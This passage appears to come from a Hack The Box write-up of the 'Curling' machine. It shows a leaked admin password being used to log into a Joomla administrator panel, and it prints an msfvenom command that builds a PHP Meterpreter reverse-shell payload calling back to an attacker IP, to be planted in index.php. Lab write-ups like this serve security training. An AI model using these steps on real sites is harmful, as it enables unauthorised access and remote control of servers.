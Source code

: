 Joomscan didn't return anything interesting but the main page has some interesting stuff:

1. The site name is **Cewl Curling site!**, this is a reference to the cewl tool used to scrape websites for words which are then used to build wordlists.

2. The first post reveals the username for the administrator: `Floris`

3. The first post also contains something which could be used as a password: `curling2018`

![](/assets/images/htb-writeup-curling/credentials.png)

After trying a few variants of the password, I was able to log in as user `Floris` with the password `Curling2018!`

We can now access the administrator page at [http://curling.htb/administrator/index.php](http://curling.htb/administrator/index.php)

I generated a simple PHP meterpreter payload:

```
root@ragingunicorn:~/htb/curling# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=4444 > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1112 bytes
```

Then I added it to the index.php page so i could trigger it by browsing the main page:
